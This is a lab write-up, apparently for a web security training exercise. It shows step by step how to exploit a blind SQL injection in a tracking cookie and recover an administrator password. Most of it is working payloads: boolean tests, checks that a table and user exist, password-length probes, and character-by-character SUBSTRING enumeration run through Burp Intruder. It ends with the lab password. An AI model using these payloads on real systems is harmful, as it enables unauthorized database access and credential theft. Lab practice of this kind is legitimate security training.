# Blind SQL injection with conditional responses
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. 
\
The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows. \
\
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.\
\
To solve the lab, log in as the administrator user.

# Solution


Expected query structure concerning TrackingId:
```
SELECT TrackingId FROM TrackingIdTable WHERE TrackingId='8e4W3X5FoxstfJs7'
```

## Blind SQL Injection
If TrackingId is correct (exists in database) application return “Welcome back!” message (True).
||
|:--:| 
| *Cookie value: `TrackingId=8e4W3X5FoxstfJs7' and 1=1--` returns True* |

If TrackingId is incorrect application does NOT return “Welcome back!” message (False).
||
|:--:| 
| *Cookie value: `Cookie: TrackingId=8e4W3X5FoxstfJs7' and 1=0--` returns False* |

## Checking that the users table exists
```
TrackingId=8e4W3X5FoxstfJs7' and (select 'u' from users LIMIT 1)='u'--
```
The query above returns true therefore, the `user` table exists in database.


## Checking that the user administrator exists
```
TrackingId=8e4W3X5FoxstfJs7' and (select username from users where username='administrator')='administrator'--
```
The query above returns true therefore the user `administrator` exists.


## Determining the length of the administrator’s password
```
TrackingId=8e4W3X5FoxstfJs7' and (select username from users where username='administrator' and LENGTH(password)>19)='administrator'-- -> True
TrackingId=8e4W3X5FoxstfJs7' and (select username from users where username='administrator' and LENGTH(password)>20S)='administrator'-- -> False
```


## Determining the length of the administrator’s password using Intruder

||
|:--:| 
| *Setting payload position* |
||
| *Payloads settings and results* |

## Password Enumeration - Intruder - Sniper
```
TrackingId=8e4W3X5FoxstfJs7' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'n'--
```
The query above returns true therefore administrator's first character from password is “n”.

||
|:--:| 
| *Brute force result* |
||
| *Check that "n" is first letter in password* |

This can be reapeated 20 times or done using Intruder - Cluster Bomb mode

## Password Enumeration - Intruder - Cluster Bomb

||
|:--:| 
| *Payload positions* |
||
| *First payload settings* |
||
| *Second payload settings* |
||
| *Results* |

Password: nqil2i5ylo5bw3gr7nu7